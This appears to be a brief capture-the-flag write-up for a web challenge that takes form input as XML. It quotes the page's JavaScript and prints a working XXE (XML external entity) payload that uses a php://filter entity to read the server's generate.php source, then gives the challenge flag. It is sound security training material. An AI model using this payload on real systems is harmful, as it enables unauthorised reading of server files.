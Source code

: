 
## eXtremely Messed up Lad

# The challenge

I've created a hacker name generator. I wonder what you'll find ...


# Writeup

We are facing a page with 2 input.
and the JS code :
```javascript
 const fn = $("#inputFirstName").val();
const ln = $("#inputLastName").val();
let tpl = `<?xml version='1.0' encoding='UTF-8'?><input><firstName>${fn}</firstName><lastName>${ln}</lastName></input>`;
window.location.href = `generate.php?input=${encodeURIComponent(btoa(tpl))}`;
```

It look like Xml parsing injection.
I made a small google (or Qwant) search and found a way to execute code/ include file in xml parsing, so i retrieved the generate.php.

window.location.href = "generate.php?input="+encodeURIComponent(btoa('<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY > <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=generate.php" >]><input><firstName>&xxe;</firstName></input>'))

In the source code we can find : 
axactf{th4t_w45_50m3_4w350m3_j0b_th4t_y0u_d1d_th3r3}

